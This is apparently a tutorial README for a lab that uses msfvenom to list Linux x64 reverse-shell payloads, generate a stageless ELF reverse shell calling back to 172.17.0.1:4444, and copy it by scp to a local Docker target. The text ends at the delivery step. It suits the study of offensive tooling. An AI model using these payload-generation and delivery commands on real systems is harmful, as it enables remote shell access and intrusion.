 In this section, we will use `msfvenom` to create two payloads: a staged one, and a stageless one, and we will study the differences between them. We will use the Dockerfile in this folder to create a Linux machine on which we will be able to send the payload using SSH. Running it should let us getting a reverse shell.
## Stageless payload
The first step will be to choose the payload. The goal will be to get a reverse shell on a 64 bits Linux machine. We can get the list of the candidate payloads with this command:
```
$msfvenom -l payloads | grep linux | grep shell | grep reverse | grep x64
    cmd/linux/http/x64/shell/reverse_sctp                              Fetch and execute an x64 payload from an HTTP server. Spawn a command shell (staged). Connect back to the attacker
    cmd/linux/http/x64/shell/reverse_tcp                               Fetch and execute an x64 payload from an HTTP server. Spawn a command shell (staged). Connect back to the attacker
    cmd/linux/http/x64/shell_reverse_ipv6_tcp                          Fetch and execute an x64 payload from an HTTP server. Connect back to attacker and spawn a command shell over IPv6
    cmd/linux/http/x64/shell_reverse_tcp                               Fetch and execute an x64 payload from an HTTP server. Connect back to attacker and spawn a command shell
    cmd/linux/https/x64/shell/reverse_sctp                             Fetch and execute an x64 payload from an HTTPS server. Spawn a command shell (staged). Connect back to the attacker
    cmd/linux/https/x64/shell/reverse_tcp                              Fetch and execute an x64 payload from an HTTPS server. Spawn a command shell (staged). Connect back to the attacker
    cmd/linux/https/x64/shell_reverse_ipv6_tcp                         Fetch and execute an x64 payload from an HTTPS server. Connect back to attacker and spawn a command shell over IPv6
    cmd/linux/https/x64/shell_reverse_tcp                              Fetch and execute an x64 payload from an HTTPS server. Connect back to attacker and spawn a command shell
    cmd/linux/tftp/x64/shell/reverse_sctp                              Fetch and execute an x64 payload from a TFTP server. Spawn a command shell (staged). Connect back to the attacker
    cmd/linux/tftp/x64/shell/reverse_tcp                               Fetch and execute an x64 payload from a TFTP server. Spawn a command shell (staged). Connect back to the attacker
    cmd/linux/tftp/x64/shell_reverse_ipv6_tcp                          Fetch and execute an x64 payload from a TFTP server. Connect back to attacker and spawn a command shell over IPv6
    cmd/linux/tftp/x64/shell_reverse_tcp                               Fetch and execute an x64 payload from a TFTP server. Connect back to attacker and spawn a command shell
    linux/x64/shell/reverse_sctp                                       Spawn a command shell (staged). Connect back to the attacker
    linux/x64/shell/reverse_tcp                                        Spawn a command shell (staged). Connect back to the attacker
    linux/x64/shell_reverse_ipv6_tcp                                   Connect back to attacker and spawn a command shell over IPv6
    linux/x64/shell_reverse_tcp                                        Connect back to attacker and spawn a command shell
```
We will use the payload `linux/x64/shell_reverse_tcp`.

It is now possible to generate the executable that will give us the reverse shell:
```
$msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f elf > reverse_shell
```
Here, `172.17.0.1` is the IP address of the docker interface of my machine.

The next step is to send the payload to the target machine. We will use docker to set up this machine:
```
docker build -t msfvenom_target $(pwd) && docker run -d msfvenom_target
```
Then, we can use `scp` to send the payload:
```
scp reverse_shell john@172.17.0.2:~/reverse_shell
```
